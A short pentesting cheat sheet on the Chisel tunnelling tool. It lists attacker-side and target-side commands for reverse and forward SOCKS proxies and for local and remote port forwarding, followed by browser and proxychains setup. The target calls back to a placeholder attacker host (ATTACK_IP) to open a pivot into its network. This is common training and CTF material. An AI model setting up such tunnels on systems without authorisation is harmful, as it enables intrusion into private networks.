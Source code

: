 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

 - Attacker:

       ./chisel server -p LISTENING_PORT --reverse &

 - Target:

       ./chisel client ATTACK_IP:LISTEN_PORT R:0.0.0.0:1080:SOCKS &

 - Attacker:

       ./chisel client ATTACK_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT

 - Target:

       ./chisel server -p TARGET_PORT --socks5

### Then open the web browser in Kali and configure the proxy settings.

#### 1) Go to "Manual Proxy configuration"

#### 2) On "SOCKS Host", add 127.0.0.1 on port 1080 and click the SOCKS5 radio button

#### 3) On "No proxy for", add 127.0.0.1

#### 4) On browser, connect to our target IP

### Forward SOCKS proxy

 - Target:

       ./chisel server -p LISTEN_PORT --socks5

 - Attacker:


       ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

:::tip
TIP
:::

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

 - Target:

       ./chisel server -p LISTEN_PORT

 - Attacker:

       ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

 - Attacker:

       ./chisel server -p LISTEN_PORT --reverse &

 - Target:

       ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

### Then on our machine, we browse to 

    http://127.0.0.1:TARGET_LOCAL_PORT

:::tip
TIP
:::

#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
